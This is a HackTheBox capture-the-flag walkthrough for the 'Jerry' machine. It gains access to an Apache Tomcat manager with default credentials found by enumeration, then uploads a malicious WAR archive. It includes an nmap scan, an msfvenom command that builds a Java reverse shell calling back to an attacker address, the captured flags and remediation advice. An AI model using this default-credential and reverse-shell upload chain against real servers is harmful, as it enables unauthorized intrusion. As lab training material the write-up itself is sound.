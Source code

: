 
<p align="center">
  <img src="./screenshots/jerry_logo.png" alt="jerry_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Jerry Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{7004dbcef0f854e0fb401875f26ebd00}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|  Credentials  | `tomcat:s3cret`	                    |
|   Technique   | `Insecure Files Upload Attack`	    |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.95 jerry.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 jerry.htb -oN jerry_tcp_scan

```
> Results:

```bash

8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

```

> Scanning showed only one open port `8080`.
> Open in browser:

![tomcat_main_web](./screenshots/tomcat_main_web.png)

> We see the start page of the Apache Tomcat web server

> Go to `Manager App` since that is where the list of all deployed applications is located in **Tomcat**

![tomcat_app](./screenshots/tomcat_app.png)

> But you can’t just get there - this functionality requires elevated privileges (for example, administrator).

![tomcat_access_denied](./screenshots/tomcat_access_denied.png)

> Ok. I Need credentials.

> I found a **wordlist** with credentials for `Tomcat` that can be installed by default:

![tomcat_creds](./screenshots/tomcat_creds.png)

> Using the enumeration method I found the correct pair - `tomcat`:`s3cret`.

> Go to `Manager App`

![tomcat_manager_app](./screenshots/tomcat_manager_app.png)

> I see a list of deployed applications as well as the functionality for adding a new **Java** application. `Tomcat` allows you to download certain types of files - so-called `.war` archives
> which it can independently deploy and display in the list of applications.

---
## 🚪 Entry Point / initial access

---
**Note:** `.war` is a special file format (extension) designed for deploying **Java** applications on `Apache Tomcat` servers. This format is correct for `Tomcat` since it contains all the
necessary components for deploying and running the application itself - `JSP files`, `servlets`, `HTML pages`, `static resources` and `configuration files`.
---

> If there is no filtering or validation of uploaded files on the server side, then having access to the web applications administration panel I can implement an attack of the `Insecure File Upload` type
> which will allow me to gain access to the system.

> Since the application deployment functionality can only accept `.war` files for upload I will generate a suitable payload for the `.war` file via `msfvenom`:

```bash

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o reverse.war

Payload size: 13033 bytes
Final size of war file: 13033 bytes
Saved as: reverse.war

```

> Uploading the finished `.war` archive to the server:

![tomcat_deploy](./screenshots/tomcat_deploy.png)

> Our downloaded `reverse` appeared in the list of applications.

> I launch the listener and open `reverse` in the browser to activate the payload:

![tomcat_reverse](./screenshots/tomcat_reverse.png)

> Reverse Shell:

![tomcat_admin](./screenshots/tomcat_admin.png)

---
**Note:** `Insecure File Upload` is a web vulnerability that exploits the ability of web applications to expand using user information using functions
to upload something to the server - `files`, `pictures`, `documents`, etc. If the data uploaded by the user is not filtered and checked properly, this can
lead to the execution of arbitrary malicious code on the server side.
---

> Flags are in the directory `C:\Users\Administrator\Desktop\flags`:

```bash

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>

```

> Machine is pwned.

---
## 🧠 Conclusion

> During the machine walkthrough a running `Apache Tomcat` web server was detected on port `8080`. Access to the application administration panel was obtained by exploiting
> `insecure default credentials`. The lack of any filtering when uploading files to the server resulted in access to the system with Administrator privileges by obtaining a
> reverse shell through uploading a `.war` archive containing malicious code. The `Insecure File Upload` vulnerability is dangerous because it allows easy access to the system
> without being an Administrator.

> To eliminate the vulnerabilities, it is necessary to:

- 1) Implement full control over access rights. Do not use default credentials to avoid unauthorized access to the administration functionality. Users
- should not have excessive privileges.

- 2) Be sure to implement `verification of uploaded files`. It is necessary to strictly check and limit the upload of `.war` files.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>

